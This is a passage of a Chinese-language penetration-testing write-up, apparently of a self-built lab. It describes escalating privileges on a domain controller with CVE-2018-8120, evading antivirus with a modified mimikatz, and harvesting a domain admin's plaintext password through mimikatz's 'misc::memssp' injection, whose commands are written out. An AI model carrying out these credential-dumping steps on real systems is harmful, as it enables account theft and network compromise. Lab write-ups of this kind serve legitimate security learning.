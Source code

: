 [![](https://p0.ssl.qhimg.com/t013a97ea83e578b4b9.png)](https://p0.ssl.qhimg.com/t013a97ea83e578b4b9.png)

这里很好奇的是，为了增加难度，我在域控上加了一个安全狗上去，但是在我执行msf的shell的时候并没有提示任何异常操作..

[![](https://p3.ssl.qhimg.com/t011f52eafd784b6e90.png)](https://p3.ssl.qhimg.com/t011f52eafd784b6e90.png)

算了，不管他..继续，提权域控，导出域hash<br>
先查看有那些补丁没有打..

```
run post/windows/gather/enum_patches
```

[![](https://p5.ssl.qhimg.com/t01307764c848aa4a71.png)](https://p5.ssl.qhimg.com/t01307764c848aa4a71.png)

尝试了几个exp之后都失败了，于是寄出神器CVE-2018-8120

[![](https://p3.ssl.qhimg.com/t0143723f916a25991a.png)](https://p3.ssl.qhimg.com/t0143723f916a25991a.png)

得到system权限，然后下面我们尝试去抓取域控上面的hash与明文密码..

我们这里使用直接上传mimikatz的方法进行抓取，这时候，终于安全狗报毒了…

我们换上免杀的mimikatz进行密码抓取

[![](https://p1.ssl.qhimg.com/t0150fae6f6dbee12a3.png)](https://p1.ssl.qhimg.com/t0150fae6f6dbee12a3.png)

但这只是我们当前用户的密码，我们需要一个域管理的密码..<br>
我们可以做如下操作：

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

mimikatz # exit
```

此时我们只需要耐心等待域管理员登录就好了，我们模拟登录后再进行查看.

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01580ae4d73d75dc78.png)

已经获得了域管理员的明文密码



## 写在后面

整个过程下来收获还是蛮大的，也意识到了自己的不足，当然我的这种方法可能不是最好的方法，而且作者也说了在域控上有redis漏洞等，文中都没有涉及，而且实战中肯定也会比这个复杂的多，本文也仅仅是给大家提供一个思路而已，如果文中有出错的地方还望指出，以免误人子弟。
